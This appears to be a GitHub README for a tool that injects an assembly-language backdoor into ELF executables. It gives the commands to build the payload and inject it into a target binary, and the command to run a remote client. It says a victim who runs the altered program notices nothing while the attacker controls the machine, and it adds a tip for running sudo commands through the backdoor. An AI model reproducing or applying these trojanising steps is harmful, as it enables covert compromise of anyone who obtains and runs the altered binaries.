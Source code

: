 # Simple-elf-backdoor

It is an elf backdoor written in pure assembly language.

## Usage
### backdoor
```bash
$ gcc elfinject.c -o elfinject -lelf
$ nasm -f bin backdoor.s -o backdoor.bin
$ ./elfinject elftarget backdoor.bin ".injected" 0x800000 0
```
### backdoor_client
```
$ python3 tcpClient.py
```
## victim
If victim download or obtain the file in any way
```
$ ./elftarget
```
The victim uses the original program without problems and Attackers use backdoors.

## Demo
### backdoor
![backdoor](https://github.com/gbdngb12/Simple-elf-backdoor/assets/104804087/84720f5f-7caf-45aa-b28a-00632b779317)

### backdoor_client
![client](https://github.com/gbdngb12/Simple-elf-backdoor/assets/104804087/29cf4cf6-bf88-456f-8cc2-052c8ae33f0c)

## Tips
### How to use sudo
```bash
$ python3 tcpClient
echo "password" | sudo -S <command>
```
